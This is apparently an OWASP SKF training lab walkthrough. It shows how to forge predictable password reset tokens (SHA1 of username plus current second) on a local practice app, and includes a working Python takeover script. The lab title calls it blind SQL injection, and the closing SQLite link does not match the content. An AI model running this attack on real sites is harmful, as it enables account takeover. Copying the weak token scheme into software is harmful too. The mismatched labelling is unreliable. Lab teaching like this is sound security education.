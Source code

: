 # KBID 156 - SQLI \(Blind\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:threatmodeling
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:theatmodeling
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to understand how the password reset functionality works. 
We identify that there is a /forget endpoint that serves the password reset page.

![](../../.gitbook/assets/tm-1.png)

```text
http://localhost:5000/forget
```

### Step2

Submit a username to the password reset form to generate a reset token.

![](../../.gitbook/assets/tm-2.png)

```text
http://localhost:5000/passwordForget
```

### Step3

Observe that the reset token is generated using the current timestamp and the username. The token generation logic is as follows:

```python
current_time = datetime.datetime.now()
timestamp = current_time.second
to_hash = values[0][1] + str(timestamp)
resetToken = hashlib.sha1(to_hash.encode('utf-8')).hexdigest()
```

### Step4

We can exploit this logic by generating the token ourselves. First, get the current time and username. Then, use the same logic to create a token.

```Python
import hashlib
import datetime

username = 'testuser'
current_time = datetime.datetime.now()
timestamp = current_time.second
to_hash = username + str(timestamp)
resetToken = hashlib.sha1(to_hash.encode('utf-8')).hexdigest()
print(resetToken)
```

### Step5 

Use the generated token to reset the password by navigating to the following URL:

```text
http://localhost:5000/reset/<username>/<resetToken>
```

## Exploitation

Now that we understand the vulnerability, we can use it to reset any user's password by generating a valid token and navigating to the reset link.

### Step1

Create a script to automate token generation and password reset.


```python
import requests
import hashlib
import datetime

username = 'victimuser'
current_time = datetime.datetime.now()
timestamp = current_time.second
to_hash = username + str(timestamp)
resetToken = hashlib.sha1(to_hash.encode('utf-8')).hexdigest()

reset_url = f'http://localhost:5000/reset/{username}/{resetToken}'
response = requests.get(reset_url)

if response.status_code == 200:
    print('Token is valid, proceeding to reset password...')
else:
    print('Token is invalid, try again.')
```

#### Step 2

Use the generated link to reset the password and Voila We made it! 

## Additional sources

Please refer to the OWASP testing guide for a complete description of password reset vulnerabilities and edge cases over different platforms!

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/09-Testing_for_Weak_Password_Change_or_Reset_Functionalities](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/09-Testing_for_Weak_Password_Change_or_Reset_Functionalities)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)
